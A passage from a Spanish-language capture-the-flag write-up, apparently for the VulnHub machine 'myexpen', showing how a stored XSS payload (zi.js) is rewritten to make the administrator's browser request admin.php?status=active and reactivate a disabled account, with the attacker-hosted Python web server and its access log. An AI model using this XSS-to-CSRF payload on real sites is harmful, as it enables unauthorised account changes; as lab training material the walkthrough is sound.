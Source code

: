 ![](/assets/images/vh-writeup-myexpen/Web16.png)

Pero nos dice que el administrador solo puedo estar autenticado una unica vez

![](/assets/images/vh-writeup-myexpen/Web17.png)

Pero bueno algo que podemos hacer es que nuestra cuenta de Samuel que fue despedido si ponemos el cursor en la parte de `Inactive` y damos click nos lleva a esto se esta tratando de activar la cuenta pero no podemos solo el administrador

![](/assets/images/vh-writeup-myexpen/Web18.png)

Podemos modificar el archivo que teniamos antes para que ahora lo que haga es que tramite una peticion al link que le vamos a pasar que es el que vimos en la imagen anterior para que active la cuenta de `Samuel` esto es como un tipo `CSRF` aprovechandonos del `XSS`

```bash
❯ catn zi.js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=11&status=active');
request.send();
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.15 - - [28/Mar/2023 19:20:03] "GET /zi.js HTTP/1.1" 200 -
```
